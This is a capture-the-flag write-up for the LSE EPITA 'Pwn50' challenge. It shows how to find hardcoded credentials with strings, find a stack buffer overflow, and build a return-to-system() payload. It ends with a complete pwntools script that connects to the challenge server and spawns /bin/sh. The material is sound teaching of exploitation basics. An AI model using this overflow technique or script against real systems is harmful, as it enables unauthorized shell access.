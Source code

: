 LSE Challenge Link: https://ctf.lse.epita.fr/ex/55/

This challenge was relatively easy to complete but provided a good review of the fundamentals. 

To start off we check the file headers on the binary,

![header](header.PNG)

We can see that the file isn't stripped which makes this challenge less cumbersome. 
Next we check the properties of the binary. 

![rabin2](rabin2.PNG)

Hmm, no ALSR but can't really tell much from here. Let's run the binary to see what this challenge is about.

![password](password.PNG)

Ah we need a username, well before we dive into the assembly, lets see if we can get the username and password
an easier way. By running strings. 

![strings](strings.PNG)

Huh, admin and T6OBSh2i look interesting. Let's try those.

![login](login.PNG)

Great we are in. Lets see what this binary can do.

![choice1](choice1.PNG)

![choice2](choice2.PNG)

Hmmmm, seems like we can't execute commands. Time to dive into the binary. 
Running radare2 on the binary we can see some interesting functions

![afl](afl.PNG)

Lets check out the execcmd function.

![r2execcmd](r2execcmd.PNG)

Huh, interesting. There doesn't seem to be a way of running systems, dword[local_4h] is set to 0 at the beginning of the 
function and there isn't a way to change it. Seems like we need to find another way in. Since this challenge is only 50 points, let's try some common vunerablities. Let's enter a lot of characters for the read function. 

![overflow](overflow.PNG)

This looks promising. It places our large input on the stack and you can see that it overwrites RSP and RBP as well as RSI.
Let's try exiting the program to see what happens, since the return value is on the stack when we exit it should segfault. 

![segfault](segfault.PNG)

Ah, just as we thought it segfaulted. Now we have the ability to execute code. To get the flag we need the return function
to jump to the system function call and get us a shell. Well, we can find the address of system in gdb and use that address 
appended onto an offset to jump to the system call. 

Here is the system call

![system](system.PNG)

And here is the size of the buffer

![buffer](buffer.PNG)

And it looks like the offset should be around 0x50 which is around 80 characters, adding 4 for ebp and 4 for esp, it should be
an offset of 88. But wait, we need to remember that the system call takes a string arguement to run when called. We need to set up the system stack with our shell command, in this case /bin/sh, so that when we call it that command will run. 

This leads to the following python code

```
#LSE Pwn50 

from pwn import *

#p = process ('./pwn50')

p = remote('ctf.lse.epita.fr',52190)

p.recv()
p.sendline('admin')

p.recv()
p.sendline('T6OBSh2i')

p.recv()
p.sendline('1')

p.recv()
p.sendline('/bin/sh')

p.recv()
p.sendline("A"*88 + p64(0x0040084f))

p.recv()
p.sendline('3')

p.interactive()

```

Hope this was informative






